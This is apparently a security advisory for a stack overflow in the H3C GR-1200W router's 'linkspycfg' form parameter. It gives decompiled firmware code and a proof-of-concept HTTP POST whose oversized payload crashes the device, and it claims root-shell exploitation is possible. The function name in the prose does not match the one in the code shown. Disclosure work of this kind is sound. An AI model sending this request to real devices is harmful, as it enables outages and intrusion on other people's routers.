 ### Affected product

```
H3C GR-1200W  MiniGRW1A0V100R006
```

### Firmware

```
https://www.h3c.com/cn/d_202102/1383837_30005_0.htm
```
In function sub_4ACC30,the content obtained by the program from the parameter "linkspycfg" is passed to sa .Then the sa is directly copied into the v9 stack through the strncpy function.
There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code 
Execution with carefully crafted overflow data.

### Detail

```c
int __fastcall sub_40CD88(int a1)
{
  size_t v2; // [sp+30h] [+30h]
  size_t v3; // [sp+30h] [+30h]
  char *v4; // [sp+34h] [+34h]
  char *v5; // [sp+38h] [+38h]
  char *sa; // [sp+3Ch] [+3Ch]
  char *s; // [sp+3Ch] [+3Ch]
  int v8; // [sp+40h] [+40h] BYREF
  char v9[256]; // [sp+44h] [+44h] BYREF
  int v10[8]; // [sp+144h] [+144h] BYREF
  int v11; // [sp+164h] [+164h] BYREF
  int v12; // [sp+168h] [+168h] BYREF
  int v13; // [sp+16Ch] [+16Ch] BYREF
  int v14; // [sp+170h] [+170h] BYREF
  int v15; // [sp+174h] [+174h] BYREF
  int v16; // [sp+178h] [+178h] BYREF
  char v17[32]; // [sp+17Ch] [+17Ch] BYREF
  char v18[32]; // [sp+19Ch] [+19Ch] BYREF
  char v19[36]; // [sp+1BCh] [+1BCh] BYREF

  v10[0] = 0;
  v10[1] = 0;
  v10[2] = 0;
  v10[3] = 0;
  v10[4] = 0;
  v10[5] = 0;
  v10[6] = 0;
  v10[7] = 0;
  sa = (char *)sub_4E58C8(a1, "linkspycfg", &unk_4EE560);
  v2 = strlen(sa);
  memset(v9, 0, sizeof(v9));
  strncpy(v9, sa, v2);
  sscanf(v9, "%d %d %d;", &v11, &v12, &v13);
  CFG_SetEnableValue(0, 738463744, v11);
  CFG_SetInt32Value(0, 738467840, v12);
  CFG_SetInt32Value(0, 738471936, v13);
  s = (char *)sub_4E58C8(a1, "param", &unk_4EE560);
  v3 = strlen(s);
  v4 = s;
  v5 = strchr(s, 59);
  while ( v5 )
  {
    memset(v9, 0, sizeof(v9));
    strncpy(v9, v4, v5 - v4);
    sscanf(v9, "%s %d %s %d %s %d %s", v10, &v14, v17, &v15, v18, &v16, v19);
    if ( !IF_GetByPseudoNameDomain(v10, 0, &v8) )
    {
      CFG_SetEnableValue(v8, 738476032, v14);
      CFG_Set(v8, 738488320, v17);
      CFG_SetEnableValue(v8, 738480128, v15);
      CFG_Set(v8, 738492416, v18);
      CFG_SetEnableValue(v8, 738484224, v16);
      CFG_Set(v8, 738496512, v19);
      v4 = v5 + 1;
      if ( v5 + 1 >= &s[v3] )
        return 0;
      v5 = strchr(v4, 59);
    }
  }
  return 0;
}
```
### POC

```python
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.11:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=UpdateWanLinkspyMulti&linkspycfg=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;

```




You can see the router crash, and finally we can write an exp to get a root shell
